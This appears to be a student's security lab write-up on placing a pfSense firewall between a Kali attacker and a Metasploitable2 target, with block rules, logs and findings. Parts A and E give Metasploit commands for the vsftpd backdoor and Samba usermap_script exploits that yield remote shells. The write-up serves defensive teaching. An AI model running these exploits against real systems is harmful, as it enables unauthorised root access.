









# Exercise 06 — pfSense Firewall Setup & Traffic Control

**Date:** 09/03/2026
**Category:** Defense and Detection
**Tools:** pfSense 2.7.2, Metasploit, Nmap
**Attacker:** Kali Linux — 192.168.56.102
**Firewall:** pfSense — WAN 192.168.56.104 / LAN 192.168.1.1
**Target:** Metasploitable2 — 192.168.1.100

---

## Objective
Insert a pfSense firewall between Kali and Metasploitable2 to simulate 
a real network architecture, then demonstrate the effect of firewall 
rules by blocking a known exploit and observing the results in firewall 
logs.

---

## Network Architecture

Before this exercise, Kali and Metasploitable2 were on the same flat 
Host-Only network with no traffic filtering between them. This exercise 
introduces a firewall layer, reflecting how real corporate environments 
separate attacker-facing networks from internal assets.
```
Before:
Kali (192.168.56.102) ←——→ Metasploitable2 (192.168.56.103)
[no firewall, flat network]

After:
Kali (192.168.56.102) → pfSense WAN (192.168.56.104)
                              ↓
                        pfSense LAN (192.168.1.1)
                              ↓
                        Metasploitable2 (192.168.1.100)
```

### Screenshot — Lab Setup: All Three VMs Running


---

## pfSense Configuration

**VirtualBox network adapters:**
- Adapter 1 (WAN): Host-Only — same network as Kali
- Adapter 2 (LAN): Internal Network (`intnet`) — isolated segment 
  for Metasploitable2

**pfSense interface assignment:**
- WAN (em0): DHCP from VirtualBox — assigned 192.168.56.104
- LAN (em1): Static — 192.168.1.1/24
- DHCP server enabled on LAN: range 192.168.1.100–192.168.1.200

**Metasploitable2** was moved from Host-Only to Internal Network 
(`intnet`) and received 192.168.1.100 via pfSense DHCP.

**Routing:** A static route was added on Kali to reach the LAN segment:
```bash
sudo ip route add 192.168.1.0/24 via 192.168.56.104
```
A default gateway was added on Metasploitable2 for return traffic:
```bash
sudo route add default gw 192.168.1.1
```

---

## Part A — Baseline: Exploit Works Through Firewall

With an allow-all rule in place, the vsftpd 2.3.4 backdoor exploit 
(CVE-2011-2523) from Exercise 03 was re-run against the new 
Metasploitable2 IP to confirm connectivity through pfSense.
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set LHOST 192.168.56.102
run
```

**Result:** Root shell obtained. Session opened from 
`192.168.56.102:40897` to `192.168.1.100:6200` — traffic passed 
through pfSense via the allow-all rule.

### Screenshot — Exploit Successful Through Firewall


---

## Part B — Block Rule: Port 21 (FTP)

A block rule was added in pfSense at **Firewall → Rules → WAN**:

| Field | Value |
|---|---|
| Action | Block |
| Protocol | TCP |
| Source | Any |
| Destination | Any |
| Destination Port | 21 (FTP) |
| Logging | Enabled |
| Description | Block FTP port 21 |

The block rule was placed above the allow-all rule so it takes 
priority — pfSense processes rules top to bottom, first match wins.

### Screenshot — pfSense Firewall Rules


---

## Part C — Exploit Blocked

The vsftpd exploit was run again with the block rule active:
```bash
run
```

**Result:**
```
[-] 192.168.1.100:21 - Exploit failed [unreachable]: 
Rex::ConnectionTimeout The connection with (192.168.1.100:21) timed out.
```

The firewall dropped the SYN packets before they reached Metasploitable2. 
The connection timeout (as opposed to a refused connection) confirms 
the packets were silently dropped — standard behaviour for a block rule 
vs a reject rule.

### Screenshot — Exploit Blocked by Firewall


---

## Part D — Firewall Log Evidence

pfSense logs confirmed the block rule was triggered. The Rule column 
clearly identifies which rule handled each packet.

| Time | Action | Rule | Source | Destination |
|---|---|---|---|---|
| 22:10:49 | ❌ Block | Block FTP port 21 | 192.168.56.102 | 192.168.1.100:21 |
| 22:10:50 | ❌ Block | Block FTP port 21 | 192.168.56.102 | 192.168.1.100:21 |
| 22:10:52 | ❌ Block | Block FTP port 21 | 192.168.56.102 | 192.168.1.100:21 |
| 22:12:30 | ✅ Pass | Allow Kali to Metasploitable | 192.168.56.102 | 192.168.1.1:53 |

### Screenshot — Firewall Logs Showing Blocked and Allowed Traffic


---

## Findings

**Rule order matters** — pfSense processes rules top to bottom. 
The block rule on port 21 must sit above the allow-all rule or it 
will never be evaluated.

**Block vs Reject** — a block rule silently drops packets, causing 
a timeout on the attacker side. A reject rule sends back an RST or 
ICMP unreachable response, which reveals the firewall's presence. 
Silent drop is preferred in real environments.

**Logging is essential** — without logging enabled on the block rule, 
there would be no evidence the firewall was triggered. In a SOC 
environment these logs feed into a SIEM for alerting and analysis.

---

## Part E — Block Rule: Ports 139 & 445 (Samba)

The Samba Usermap Script exploit (CVE-2007-2447) from Exercise 04 was 
re-run against Metasploitable2 through pfSense to verify connectivity, 
then blocked using firewall rules.

**Baseline — exploit working through firewall:**
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.100
set LHOST 192.168.56.102
run
```

**Result:** Reverse TCP shell opened from `192.168.56.102:4444` to 
`192.168.1.100:41773` — traffic passed through pfSense.

### Screenshot — Samba Exploit Successful Through Firewall


Two block rules were added in pfSense at **Firewall → Rules → WAN**:

| Field | Rule 1 | Rule 2 |
|---|---|---|
| Action | Block | Block |
| Protocol | TCP | TCP |
| Destination Port | 139 (NetBIOS-SSN) | 445 (MS-DS) |
| Logging | Enabled | Enabled |
| Description | Block Samba port 139 | Block Samba port 445 |

### Screenshot — pfSense Rules: All Block Rules Active


The exploit was run again with both block rules active:

**Result:**
```
[-] 192.168.1.100:139 - Exploit failed [unreachable]: 
Rex::ConnectionTimeout The connection with (192.168.1.100:139) timed out.
```

### Screenshot — Samba Exploit Blocked


**Firewall log evidence** — repeated block entries from 
`192.168.56.102` to `192.168.1.100:139` confirming the rule triggered:

### Screenshot — Firewall Logs: Samba Traffic Blocked


**Note on port 139 vs 445** — the Samba exploit targets port 139 
(NetBIOS) which pfSense blocked before the connection attempt reached 
port 445. Both ports are blocked as Samba uses either depending on 
the client negotiation.

---

## Real-World Relevance
This exercise mirrors a fundamental blue team task — implementing 
network segmentation and firewall rules to limit an attacker's 
ability to reach vulnerable services. In a real SOC environment, 
the firewall logs generated here would be ingested into a SIEM 
(Splunk, Microsoft Sentinel) and could trigger automated alerts 
when repeated connection attempts are detected against blocked ports.

---

## Recommendation
- Block ports 21, 139, 445, 23 at the network perimeter — these 
  are legacy protocols with no legitimate use on untrusted networks
- Enable logging on all block rules and ship logs to a SIEM
- Use reject rules only on internal networks where latency matters; 
  use block (drop) rules on external-facing interfaces
- Implement a default deny policy — only explicitly allowed traffic 
  should pass
